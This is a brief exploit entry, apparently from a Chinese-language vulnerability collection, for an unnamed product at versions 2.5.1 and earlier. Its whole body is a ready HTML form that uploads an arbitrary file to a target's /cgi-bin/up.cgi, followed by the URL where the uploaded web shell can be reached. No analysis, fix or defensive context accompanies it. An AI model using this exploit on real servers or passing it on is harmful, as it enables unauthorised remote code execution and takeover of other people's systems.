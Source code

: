 <languages />

漏洞影响
--------

    Version: <=2.5.1

EXP
---

    <form action="http://<target>/cgi-bin/up.cgi" method="post" enctype="multipart/form-data">
       <input type="text" name="sid" value="joe">
       <input type="file" name="file">
       <input type="submit" value="Upload" name="submit">
    </form>

    Shell : http://<target>/cgi-bin/temp/joe/she